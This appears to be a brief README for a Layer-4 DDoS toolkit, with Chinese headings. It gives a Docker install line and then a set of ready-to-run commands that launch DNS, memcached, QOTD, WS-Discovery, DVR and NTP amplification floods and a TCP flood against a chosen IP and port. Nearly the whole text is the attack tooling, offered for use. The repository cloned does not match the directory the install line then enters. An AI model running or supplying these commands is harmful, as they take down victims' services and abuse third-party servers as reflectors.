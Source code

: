 ### 安装 （docker）
apt update -y && apt install docker.io -y && git clone https://github.com/qq1521575701/dd.git && cd ddos-L4 && docker build -t ddos . && docker run -itd --name ddos --network host ddos:latest && docker exec -it ddos /bin/bash

### 使用
docker exec -it ddos ./dns ip port dns.txt 1 -1 60 &

docker exec -it ddos ./meme ip port meme.txt 1 -1 60 &

docker exec -it ddos ./qotd ip port qotd.txt 1 -1 60 &

docker exec -it ddos ./wsd ip port wsd.txt 1 -1 60 &

docker exec -it ddos ./dvr ip port dvr.txt 1 -1 60 &

docker exec -it ddos ./ntp ip port ntp.txt 1 -1 60 &

docker exec -it ddos ./tcp ip port 1 -1 60 &
